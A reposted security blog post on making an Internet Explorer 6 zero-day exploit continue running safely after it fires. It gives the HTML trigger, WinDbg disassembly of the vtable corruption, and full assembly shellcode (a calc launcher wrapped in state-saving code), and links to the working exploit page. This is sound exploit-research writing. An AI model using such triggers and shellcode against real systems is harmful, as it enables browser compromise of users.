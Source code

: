 ```yaml
---
layout: post
title: "Process continuation after exploit (aka. IE is my process launcher)"
description: ""
category:
tags: [exploit, process continuation, shellcode]
---
```


This is an old post from one of my old blogs so reposting here for eternity (not one of the most elegant teks, looking at you Seba from the past).

Last week another 0day was discovered in the wild exploiting Internet Explorer. And as the bug wasn’t hard
to trigger/exploit in IE 6, I thought that it would be good to add another decoration to this exploit.
As last week I was also talking to some friends about why exploit writers are not interested on recovering process (or why don’t they do it), I decided to write this post.
Here will describe how to make IE6 continue after it has been successfully exploited using last 0day bug.

The trigger for the bug is: `<table style="position: absolute; clip: rect(0);">`

When we trigger the bug we see that we are using a defaced vtable, in my IE, i see that the jump comes from `EnsureDispNodeBackground`:

```
0:000> ub 7dcb1c3f
mshtml!CLayout::EnsureDispNodeBackground+0x81:
7dcb1c2d 33f6            xor     esi,esi
7dcb1c2f 46              inc     esi
7dcb1c30 56              push    esi
7dcb1c31 8bcf            mov     ecx,edi
7dcb1c33 e813e2ffff      call    mshtml!CDispNode::SetBackground (7dcafe4b)
7dcb1c38 8b07            mov     eax,dword ptr [edi] ;<-- pointer to chaos
7dcb1c3a 8bcf            mov     ecx,edi
7dcb1c3c ff5030          call    dword ptr [eax+30h]
```

As you can see, the object is in edi, so it takes the vtable from object[0] and then dereferences vtable+0×30 to get the function.

After some research discovered that the vtable address was being overwritten by the function `CDispNode::SetUserClip` when trying to set a flag on a miscalculated address.

```
mshtml!CDispNode::SetUserClip+0x84:
7dd8b5d0 e8b4ddffff      call    mshtml!CRect::RestrictRange (7dd89389)
7dd8b5d5 8b4704          mov     eax,dword ptr [edi+4]
7dd8b5d8 23c6            and     eax,esi
7dd8b5da 0fb688101cc37d  movzx   ecx,byte ptr mshtml!CDispNode::_extraSizeTable (7dc31c10)[eax]
7dd8b5e1 8bc7            mov     eax,edi
7dd8b5e3 c1e102          shl     ecx,2
7dd8b5e6 2bc1            sub     eax,ecx
7dd8b5e8 830801          or      dword ptr [eax],1 ;<-- the address of the vtable is on *eax
```

The main idea of autorecovering exploits is that we can give the process the same state that it had before being exploited and this bug is perfect for this!.
The only corruption we have when the bug is triggered is 1 bit (afaik). We don’t really know if the vtable of the object is used again, but we are gonna fix it and set eax to 0 (the function failed).

I have used this shellcode [](http://code.google.com/p/w32-exec-calc-shellcode/) , greets to berendjanwever for being first on google when searching calc shellcode and having a working one, you deserve the mention!
I have not made any modification to it, just added a prologue and epilogue to save/recover the state.

```
BITS 32

;;; lets patch vtable address
and dword [edi], 0xFFFFFFFE
;;; save registers
pushad
;;; push a mark on the stack
;;; (lazy stack recovery after the payload is executed)
push 0xdead1337
;; here starts the shellcode for launching the calculator
;;  ============================================
xor esi,esi
push esi
mov esi,[fs:esi+0x30]
mov esi,[esi+0xc]
mov esi,[esi+0x1c]
l1:
mov ebp,[esi+0x8]
mov esi,[esi]
mov ebx,[ebp+0x3c]
mov ebx,[ebp+ebx+0x78]
add ebx,ebp
mov ecx,[ebx+0x18]
jcxz l1
l2:
mov edi,[ebx+0x20]
add edi,ebp
mov edi,[edi+ecx*4-0x4]
add edi,ebp
xor eax,eax
cdq
l3:
xor dl,[edi]
ror dx,0x1
scasb
jnz l3
cmp dx,0xf510
loopne l2
jnz l1
mov edx,[ebx+0x24]
add edx,ebp
movzx edx,word [edx+ecx*2]
mov edi,[ebx+0x1c]
add edi,ebp
add ebp,[edi+edx*4]
push dword 0x6578652e
push dword 0x636c6163
push esp
xchg eax,[esp]
push eax
call ebp
;;  ============================================
;;; then recover stack, search for our mark
l10:
    pop eax
    cmp eax, 0xdead1337
    jne l10
;;; restore registers
popad
;;; return from the function with error
xor eax,eax
;;; if the function had arguments we should clean them
;;; depending on the calling convention (not here :-) )
ret
;;; should never reach this point
int3
```

As we can see, recovering from the exploit is not difficult for this bug. Anyways, it could be pretty more difficult when exploiting other bugs that do more memory corruption.

The final working exploit is here: [ie_clip.html](http://snf.github.io/public/data/ie_clip.html) (open at your own risk ;-) ).

And the demo (for not believers) showing the exploit working 3 times and Internet Explorer still working: [](http://www.youtube.com/watch?v=dgV9q9Cw0PU).

Interesting slides about process continuation:
[User friendly exploits](http://www.immunitysec.com/downloads/skylar_cansecwest09.pdf)

Greetz to all my friends and coworkers.
And sorry to all of you who were expecting a spanish post.

